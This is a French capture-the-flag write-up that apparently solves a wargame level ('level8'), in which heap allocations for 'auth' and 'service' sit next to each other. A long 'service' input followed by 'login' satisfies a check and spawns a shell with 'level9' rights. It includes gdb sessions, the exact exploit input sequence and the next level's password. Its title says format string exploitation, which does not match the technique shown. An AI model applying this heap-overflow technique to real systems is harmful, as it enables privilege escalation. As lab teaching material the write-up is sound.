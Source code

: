 
# Format String Exploitation

  

En décompilant le programme, on observe qu'il y a différents tests pour arriver à une condition finale. Si cette condition est respectée, alors un shell avec les droits de `level9` sera lancé.
```C
eax = auth;
eax = *((eax + 0x20));
if (eax != 0) {
	system ("/bin/sh");
	goto label_0;
}
```
Si on traduit le code décompilé pour avoir un code un plus clair, on peut supposer que cette condition semble être : 
```C
if (auth[32] != '\0') {
	system ("/bin/sh");`
}
```
En effet, `0x20` équivaut à 32 en base10.

Pour arriver jusqu'a cette condition, il vas nous falloir plusieurs étapes. 
La méthode la plus simple serait donc d'écrire `auth ` suivis de plus de 32 caractères afin que `auth[32]` soit différent de `\0`.

On va donc tester ça sur gdb.

```
> gdb level8
> (gdb) disas main
[...]
   0x080486a8 <+324>:	mov    %eax,(%esp)
   0x080486ab <+327>:	call   0x8048430 <strdup@plt>
   0x080486b0 <+332>:	mov    %eax,0x8049ab0
> (gdb) b *0x080486ab
> (gdb) r 
Starting program: /home/user/level8/level8
(nil), (nil)
auth sdfsd
0x804a008, (nil)
service

Breakpoint 2, 0x080486ab in main ()
> (gdb) x/s 0x804a008
0x804a008:	 "sdfsd\n"
```

Ici, nous avons break au niveau du `strdup`. Cette fonction est appelé lorsque l'on saisis `service` comme entré. Nous pouvons à cet endroit la afficher la valeur de `auth `, mais nous aurions pu le faire à d'autres endroits.

La valeur de `auth ` est ici `sdfsd\n`. Nous pouvons maintenant essayer de mettre plus de caractères afin de valider la condition `auth[32] != '\0'`.

```
> (gdb) b *0x080486ab
[...]
> (gdb) r
Starting program: /home/user/level8/level8
(nil), (nil)
auth AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
0x804a008, (nil)
service 

Breakpoint 2, 0x080486ab in main ()
> (gdb) x/s 0x804a008
0x804a008:	 ""
```
Malheureusement, `auth ` est maintenant égal  à `NULL`. Nous ne pourrons donc pas écrire suffisamment de caractères pour que `auth[32] != '\0'`.

Nous allons donc devoir trouver une autre solution pour arriver à notre condition finale. 
On peut observer que nos adresses `auth` et `service` sont très proche (désassembleur Cutter). 
```
auth:
0x08049aac add byte  [eax], al
0x08049aae add byte  [eax], al
service:
0x08049ab0 add byte  [eax], al
0x08049ab2 add byte  [eax], al
```

```
0x08049ab0 - 0x08049aac = 0x4
0x08049ab2 - 0x08049aae = 0x4
```
Nos adresse sont juste à coté. Donc :
```
auth[32] = service[28] 
```
Dans la partie de code qui correspond à `service`, on observe ce bout de code :
```C
_service = strdup(auStack137);
```
En regardant le `man` de `strdup`, on est tombé sur cela : 
```
The strdup() function allocates memory and copies into it the string addressed by _s1_, including the terminating null character
```
Cela signifie qu'un `\0` va être ajouté en bout de chaine. 
Il faut donc que l'on écrive plus de 28 caractères pour que `service[28] != '\0'`. 

Pour rentrer dans la dernière condition de check `if auth[32] != '\0'`, il faut que notre dernière `input`soit `login`.

On peut vérifier cela dans gdb.

```
> gdb level8
> (gdb) disass main
[...]
   0x080486ee <+394>:	movl   $0x8048833,(%esp)
   0x080486f5 <+401>:	call   0x8048480 <system@plt>
   0x080486fa <+406>:	jmp    0x8048574 <main+16>
> (gdb) b *0x080486f5
Breakpoint 7 at 0x80486f5
> (gdb) r
Starting program: /home/user/level8/level8
(nil), (nil)
auth
0x804a008, (nil)
service AAAAAAAAAAAAAAAAAAAAAAA
0x804a008, 0x804a018
logsdf
0x804a008, 0x804a018
```
Le programme ne `break` pas en mettant une entrée aléatoire.
On réessaye donc en  mettant `login` comme dernière entrée.

```
> (gdb) b *0x080486f5
Breakpoint 7 at 0x80486f5
> (gdb) r
Starting program: /home/user/level8/level8
(nil), (nil)
auth
0x804a008, (nil)
service AAAAAAAAAAAAAAAAAAAAAAA
0x804a008, 0x804a018
login
Breakpoint 7, 0x080486f5 in main ()
```
Notre programme `break` bien, on peut donc maintenant lancer le programme.

```
> ./level8
[...]
> auth 
0x804a008, (nil)
> service AAAAAAAAAAAAAAAAAAAAAAAA
0x804a008, 0x804a018
> login
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
``` 
